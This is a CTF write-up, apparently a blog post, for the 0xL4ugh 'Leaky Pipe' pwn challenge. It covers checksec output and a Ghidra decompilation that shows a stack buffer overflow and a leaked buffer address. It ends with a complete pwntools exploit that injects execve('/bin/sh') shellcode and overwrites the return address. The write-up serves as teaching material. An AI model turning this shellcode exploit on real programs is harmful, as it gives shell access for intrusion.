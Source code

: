 ```yaml
---
title: "Leaky Pipe - 0xL4ugh CTF"
date: 2021-01-17T19:07:42+02:00
draft: false
enableToc: false
description: "In this challenge we recieved a binary in which we are asked to exploit and somehow retrieve the flag."
tags:
  - pwn
---
```

In this challenge we recieved a binary in which we are asked to exploit and somehow retrieve the flag.
you can find the binary for this challenge [here](https://github.com/hegzploit/0xL4ugh-Pwn-Challs)

## Initial Analysis

We start by running the binary and checking it behavior.
```
./leaky_pipe
We have just fixed the plumbing systm, let's hope there's no leaks!
>.> aaaaah shiiit wtf is dat address doin here...  0x7ffde7760410
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA <--- our input
Segmentation fault (core dumped)
```

And as we see, we can already get a segfault by spamming some A's in the input.

One intersting catch is that address in the output of the binary, we also note that it changes everytime we run the binary so the binary probably is a PIE (Position Independent Executable).

Let's run a checksec to make sure of our hypothesis.
```
gef➤  checksec
[+] checksec for '/vagrant/leaky_pipe/leaky_pipe'
Canary                        : ✘
NX                            : ✘
PIE                           : ✓
Fortify                       : ✘
RelRO                         : Partial
```

Seems like we have everything disabled except PIE just as predicted.

## Reversing the binary
Let's load the binary in ghidra and check the generated decompilation, sometimes this can save a lot of time trying to understand a disassembly.
```c++ {linenos=table}
undefined8 main(void)

{
  basic_ostream *pbVar1;
  basic_ostream<char,std::char_traits<char>> *this;
  ssize_t sVar2;
  undefined8 uVar3;
  undefined local_28 [32];
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,
                           "We have just fixed the plumbing systm, let\'s hope there\'s no leaks!");
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
             std::endl<char,std::char_traits<char>>);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,
                           ">.> aaaaah shiiit wtf is dat address doin here...  ");
  this = (basic_ostream<char,std::char_traits<char>> *)
         std::basic_ostream<char,std::char_traits<char>>::operator<<
                   ((basic_ostream<char,std::char_traits<char>> *)pbVar1,local_28);
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            (this,std::endl<char,std::char_traits<char>>);
  sVar2 = read(0,local_28,0x40);
  if (sVar2 < 5) {
    pbVar1 = std::operator<<((basic_ostream *)std::cout,"no smol input plz");
    std::basic_ostream<char,std::char_traits<char>>::operator<<
              ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
               std::endl<char,std::char_traits<char>>);
    uVar3 = 0xffffffff;
  }
  else {
    uVar3 = 0;
  }
  return uVar3;
}
```
The binary is fairly simple to reverse, it's written in C++ so the decompilation may seem overwhelming at the first glance but its actually quite simple!

We are intersted in the part at **line 16** where it reads 0x40 bytes from STDIN to the buffer named local_28.
```c++
  sVar2 = read(0,local_28,0x40);
```
On checking the variable local_28 we can see that it's only 32 bytes long and we are trying to read 64 (0x40) bytes into it, and that's why we got a segfault.
```c++
  undefined local_28 [32];
```

One more thing we notice on analyzing the decompilation is the address we saw at the output of the binary, here is the part we are intersted in.
```c++
this = (basic_ostream<char,std::char_traits<char>> *)
       std::basic_ostream<char,std::char_traits<char>>::operator<<
       ((basic_ostream<char,std::char_traits<char>> *)pbVar1,local_28);
```
Seems like it's printing a pointer to the buffer local_28!
This is just too good to be true at this point, we have a leaked address of a buffer that we control.
If we recall our checksec result we saw that NX-bit was not set so this meaning we can execute arbitrary shellcode on the stack.
Let's fireup our editor and start creating the exploit using a 64-bit execve(*"/bin/sh/") shellcode.

```python
from pwn import *
context.binary = 'leaky_pipe'
OFFSET = 40

if args['REMOTE']:
    io = remote('ctf.0xl4ugh.com', 4141)
else:
    io = process('leaky_pipe')

# Extract the buffer address that is leaked so we can use it in our exploit
print(io.recvuntil("..."))
address = io.recvlineS().strip()
address = int(address,0)

# Shellcode from https://www.exploit-db.com/exploits/42179

# We start filling the buffer with our shellcode 
# and the remaining bytes are padded with A's.
payload = b"\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"
payload += (b"A"* (40 - len(payload)))

# We then overwrite the return adderss with the leaked address
# which is the start of our shellcode.
payload += p64(address)

io.sendline(payload)
io.interactive()
```

